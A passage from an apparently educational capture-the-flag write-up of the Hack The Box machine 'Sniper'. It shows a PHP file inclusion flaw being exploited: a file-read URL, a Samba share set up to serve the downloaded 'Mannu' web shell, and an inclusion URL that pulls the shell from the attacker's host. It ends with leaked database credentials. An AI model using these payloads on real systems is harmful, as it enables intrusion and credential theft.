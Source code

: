 # 🔫 Sniper

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First we start by an nmap :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I first go on the webpage, and find a nice interface with sub categories:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then click on the user interface that seemed the only legit page on the homepage:

decided to create a user Felix/Felix:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and when trying to log in:&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So I start to wonder if the other pages weren't fake rabbit holes:

In the "our service" page, we find a dropdown menu for the languages linked to a php file that could lead to RFI

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we try and go fetch a file in a subdirectory:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://10.129.229.6/blog/?lang=/windows/system32/drivers/etc/hosts
```

We can now try to gain foothold via a smb share&#x20;

{% embed url="https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html" %}

### Create a Webshell with Remote File Inclusion

Configure the proper permissions.

```
~$ cd /var/www/html
/var/www/html$ sudo mkdir sniper
/var/www/html$ chmod 0555 /var/www/html/sniper/
/var/www/html$ chown -R nobody:nogroup /var/www/html/sniper/
/var/www/html$ ls -l
dr-xr-xr-x 2 nobody nogroup  4096 Feb 22 13:52 sniper
```

configured the `smb.conf` file in the location `/etc/samba/smb.conf`

```
/etc/samba$ cat smb.conf 
[global]
    workgroup = WORKGROUP
    server string = Samba Server %v
    netbios name = indishell-lab
    security = user
    map to guest = bad user
    name resolve order = bcast host
    dns proxy = no
    bind interfaces only = yes
[sniper]
    path = /var/www/html/sniper
    writable = no
    guest ok = yes
    guest only = yes
    read only = yes
    directory mode = 0555
    force user = nobody
```

restart the Samba service to get the changes effective.

```
service smbd restart
```

ast part is preparing a payload that can be called by the webserver. I downloaded the script `mannu.php` and placed it in `box.php` in the location `/var/www/html/`

```
wget https://raw.githubusercontent.com/incredibleindishell/Mannu-Shell/master/mannu.php -O /var/www/html/sniper/box.php
```

And if i request the following url with the RFI:&#x20;

```
http://10.129.229.6/blog/?lang=\\10.10.14.166\sniper\box.php
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the `../user/db.php` file, if we click the edit button, we can see some very interesting stuff:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some credentials for dbuser (36mEAhz/B8xQ\~2VM)

